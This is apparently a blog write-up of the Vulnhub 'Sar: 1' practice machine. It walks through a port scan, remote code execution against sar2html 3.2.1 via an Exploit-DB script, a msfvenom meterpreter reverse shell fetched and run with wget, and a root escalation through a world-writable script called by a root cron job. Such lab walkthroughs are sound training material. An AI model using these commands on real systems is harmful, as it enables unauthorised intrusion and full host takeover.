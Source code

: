 ```yaml
---
layout: post
title: 'Vulnhub - Sar: 1'
disass:
  - url: /assets/img/vh-sar1/sar1-1.png
    image_path: /assets/img/vh-sar1/sar1-1.png
    title: sar1-1
categories:
  - vulnhub
slug: vulnhub-sar-1
---
```


## Challenge description

[https://www.vulnhub.com/entry/sar-1,425/](https://www.vulnhub.com/entry/sar-1,425/)

> _Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing._

## Reconnaissance / Enumeration

### Port scanning and service identification

We start by scanning the ports on this machine. We have only one open port

```
$ rustscan -a x.x.x.x -r 1-65535 -- -A -sC

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
```

### Web Enumeration

The web service show the default apache page at the root. Let's do some enumeration to try and find more.

We start with /robots.txt :

```
sar2HTML
```

Which leads us to a page which seem to be a web application named sar2html v3.2.1

![sar2html](/assets/img/vh-sar1/sar1-1.png "sar2html")

Let's find out if it's vulnerable :

```
$ searchsploit sar2html
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                   | php/webapps/47204.txt
---------------------------------------------------------------------------- ---------------------------------
```

It looks like we can get RCE through this web application

## Exploitation

exploitdb points us to an exploit so let's try it out :

```
$ cp /usr/share/exploitdb/exploits/php/webapps/49344.py .
$ python3 49344.py
Enter The url => http://1.1.1.1/sar2HTML
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command =>
```

Having an RCE exploit in hands, the next step is to establish a foothold on the target

## Foothold

- First we create a meterpreter payload which we serve with python's http.server

  ```
  $ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f elf -o mp
  $ python3 -m http.server
  ```

- Then we start our metasploit listener

  ```
  $ msfconsole
  msf6 > use multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST eth0
  LHOST => eth0
  msf6 exploit(multi/handler) > set LPORT 4444
  LPORT => 4444
  msf6 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  ```

- Now we can download and execute the payload on the target through RCE exploit command line

  ```
  Command => wget 1.1.1.1:8000/mp -O /tmp/mp && chmod 777 /tmp/mp && /tmp/mp &&
  ```

- Stabilize our new shell :

  ```
  [*] Sending stage (3012548 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41106 ) at 2022-01-13 05:20:53 +0000
  meterpreter > shell
  python3 -c "import pty;pty.spawn('/bin/bash')"
  export TERM=xterm
  export SHELL=bash
  export TERM=xterm-256color
  stty rows 91 columns 190
  www-data@sar:~/html/sar2HTML$ id
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data
  ```

We have foothold on the target as www-data

## Privilege Escalation

Now it's time to escalate our privileges

There is a crontab that runs as root every 5 minutes :

```
$ cat /etc/crontab
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh

$ ls -l /var/www/html
total 32
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Jan 13 10:49 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh

$ cat /var/www/html/finally.sh
#!/bin/sh

./write.sh

$ cat /var/www/html/write.sh
#!/bin/sh

touch /tmp/gateway
```

We dont have write permission on the job's script but we do on the second script, write.sh. Let's exploit this misconfiguration :

```
$ echo 'chmod +s /bin/bash' >> /var/www/html/write.sh
$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod +s /bin/bash
```

Wait for it ...

```
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  7  2019 /bin/bash
```

/bin/bash now has the setuid bit so we can use it to escalate to root :

```
$ /bin/bash -p
bash-4.4# id && hostname
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
sar
```

Thanks for reading <3

h3x
